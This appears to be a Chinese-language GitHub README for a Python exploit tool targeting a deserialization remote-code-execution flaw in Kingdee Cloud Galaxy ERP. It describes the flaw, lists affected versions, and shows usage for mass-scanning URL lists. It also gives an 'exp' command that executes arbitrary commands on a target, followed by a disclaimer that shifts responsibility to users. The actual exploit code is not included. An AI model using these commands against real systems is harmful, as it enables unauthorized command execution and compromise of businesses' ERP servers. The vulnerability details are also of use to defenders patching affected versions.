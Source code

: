 ## 金蝶云星空 Kingdee-erp-Unserialize-RCE

由于金蝶云星空数据通信默认采用的是二进制数据格式，需要进行序列化与反序列化，在此过程中未对数据进行签名或校验，导致客户端发出的数据可被攻击者恶意篡改，写入包含恶意代码的序列化数据，达到在服务端远程命令执行的效果。该漏洞不仅存在于金蝶云星空管理中心（默认8000端口），普通应用（默认80端口）也存在类似问题。

影响范围：

6.x版本：低于6.2.1012.4

7.x版本：7.0.352.16 至 7.7.0.202111

8.x版本：8.0.0.202205 至 8.1.0.20221110

### Usage
```
usage: Kingdee-erp-Unserialize-RCE.py [-h] [-u URL] [--check] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT] [-p PROXY] [--cmd CMD]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. http://127.0.0.1)
  --check               Check if vulnerable
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
```

### poc

```
python .\Kingdee-erp-Unserialize-RCE.py -f .\url.txt --check -t 10
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/1.png)

### exp

```
python .\Kingdee-erp-Unserialize-RCE.py -u http://host --cmd 'dir'
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/2.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。
